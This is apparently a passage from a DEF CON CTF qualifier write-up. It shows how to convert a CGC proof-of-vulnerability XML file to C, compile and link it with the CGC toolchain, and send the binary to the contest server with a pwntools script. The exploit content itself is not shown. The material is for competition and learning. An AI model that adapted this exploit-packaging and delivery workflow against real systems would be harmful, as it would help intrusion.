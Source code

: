 ```
</cfepov>

```

Ok great!!! Now can we submit it and collect internet points?!?!

NOPE!

PoV’s can’t be submitted to Defcon’s framework as XML files. We must compile them to binary PoVs. To do this we use a few tools. The first is called pov-xml2c. This tool uses the cfe-pov DTD to convert your XML document into a C source code that leverages libpov and libcgc to conduct the repeatable attack.

So you need these:

pov-xml2c
libpov
libcgc – comes with your crs vagrant VM probably
cfe-pov.dtd
I built pov-xml2c on my Kali box but I don’t think it matters where you build it. You use it like this:

```
vagrant@crs:/vagrant/defcon/legit_00003$ uname -a
Linux crs 3.13.11-ckt21-cgc #1 SMP Mon Feb 29 16:42:11 UTC 2016 i686 GNU/Linux
vagrant@crs:/vagrant/defcon/legit_00003$ pov-xml2c -x legit_00003_pov.xml -o mypov.c
```

You can check out the pov source code in C but I don’t think you really need to. Next you need to compile your source code. You must do this using the CGC toolchain. Meaning clang compiler specifically built to emit CGC binaries. I did it like this.

```
vagrant@crs:/vagrant/defcon/legit_00003$  /usr/i386-linux-cgc/bin/clang -c -nostdlib -fno-builtin -nostdinc -Iinclude -Ilib -I/usr/include -O0 -g -Werror -Wno-overlength-strings -Wno-packed -DCGC_BIN_COUNT=0 -o mypov.o mypov.c
```

That gives us a object file that we must link against libpov and libcgc. We link it like this:

```
vagrant@crs:/vagrant/defcon/legit_00003$ /usr/i386-linux-cgc/bin/ld -nostdlib -static -o mypov mypov.o -L/usr/lib -lpov -lcgc -mcgc_i386
vagrant@crs:/vagrant/defcon/legit_00003$ ls -la mypov
-rwxr-xr-x 1 vagrant vagrant 186045 May 23 12:20 mypov
vagrant@crs:/vagrant/defcon/legit_00003$ file mypov
mypov: CGC 32-bit LSB executable, (CGC/Linux)
vagrant@crs:/vagrant/defcon/legit_00003$ 
```

Now can we submit it? Sure! Give it a whirl! I used the following submitter to submit to Defcon’s server:

```
#!/usr/bin/python
from pwn import *
host = 'legit_00003_25e9ac445b159a3d5cf1d52aea007100.quals.shallweplayaga.me'
port = 32648
pov = 'mypov'
povbin = open(pov,'rb').read()
povlen = str(len(povbin))
conn = remote(host,port)
povlenq = conn.recvline()
print "[*] Sending length:",povlen
conn.sendline(povlen)
sendreq = conn.recvline()
print "[*] Sending pov:"
conn.sendline(povbin)
conn.interactive()
```